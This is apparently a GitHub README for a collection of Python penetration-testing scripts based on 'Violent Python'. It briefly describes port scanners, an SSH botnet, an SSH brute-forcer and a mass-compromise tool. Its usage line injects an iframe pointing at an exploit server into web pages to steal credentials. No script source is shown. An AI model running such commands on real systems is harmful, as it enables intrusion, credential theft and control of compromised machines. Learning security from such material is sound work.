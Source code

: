 # Digital-Forensic-Analytics
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2
Window7 for few scripts


# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

## M) discoverNetworks.py    
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
